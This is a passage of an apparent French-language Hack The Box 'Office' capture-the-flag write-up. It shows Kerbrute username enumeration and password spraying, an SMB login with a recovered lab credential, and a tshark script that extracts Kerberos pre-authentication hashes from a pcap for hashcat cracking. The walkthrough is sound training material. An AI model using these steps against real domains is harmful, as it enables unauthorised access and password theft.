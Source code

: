 ```
kerbrute userenum --dc office.htb -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

![Valid usernames found with Kerbrute](/images/HTB-Office/valid-users.png)

Avec la liste des utilisateurs valides, nous essayons maintenant de trouver une combinaison valide.

```
kerbrute passwordspray --dc office.htb -d office.htb usernames 'H0lOgrams4reTakIng0Ver754!'
```

![Valid credential pair](/images/HTB-Office/login-sucess.png)

Nous constatons que `dwolfe@office.htb:H0lOgrams4reTakIng0Ver754!` marche!

Avec impacket, nous nous connectons à smb et nous remarquons un partage appelé `SOC Analysis`, contenant un fichier pcap nommé `Latest-System-Dump-8fbc124d.pcap` que nous téléchargeons.

```
impacket-smbclient dwolfe:'H0lOgrams4reTakIng0Ver754!'@10.10.11.3
```

![SMB login and SOC Analysis share](/images/HTB-Office/share-access.png)

Nous ouvrons le fichier pcap avec Wireshark et en filtrant pour `kerberos` nous découvrons des informations intéressantes.

![Kerberos pcap file](/images/HTB-Office/pcap.png)

> Lorsqu'un utilisateur demande un ticket d'octroi de ticket (TGT) au centre de distribution de clés (KDC), un processus appelé AS-REQ (Authentication Service Request) est utilisé. Dans le cadre de ce processus, l'utilisateur doit prouver son identité au centre de distribution de clés. Pendant l'AS-REQ, le client (l'utilisateur) envoie un horodatage crypté avec son hachage NTLM (qui est dérivé de son mot de passe). Cela prouve qu'il connaît le mot de passe sans l'envoyer directement.

Nous pouvons extraire le hachage du mot de passe du fichier pcap et utiliser hashcat pour le craquer. Étant donné que hashcat possède plusieurs modules pour les hachages Kerberos, nous devons utiliser le bon format. Passons en revue les informations dont nous disposons:

* La présence des champs `PA-DATA`, qui sont utilisés pour la pré-authentification, confirme que nous avons affaire à des paquets de pré-authentification Kerberos.
* Le type de chiffrement (etype) est spécifié comme étant `18` et il utilise AES-256.
* Nous avons le chiffre (hachage NTLM) utilisé pour crypter l'horodatage.
* Nous avons le nom d'utilisateur (`CNameString = tstark`) et le nom de domaine (`realm = OFFICE.HTB`).

Avec ces informations, nous trouvons que le hachage correspondant doit suivre le format `$krb5pa$18$user$realm$cipher`. Il correspond au module 19900 de hashcat que vous pouvez vérifier [ici](https://hashcat.net/wiki/doku.php?id=example_hashes).

Nous utiliserons un script Bash pour obtenir le hachage.

```bash
#!/bin/bash
filter=$(tshark -r $1 -Y "kerberos.msg_type == 10 && kerberos.cipher && kerberos.realm && kerberos.CNameString" -T fields -e kerberos.CNameString -e kerberos.realm -e kerberos.cipher -E separator=$ )

for i in $(echo $filter | tr ' ' '\n') ; do

    echo "\$krb5pa\$18\$$i"

done
```
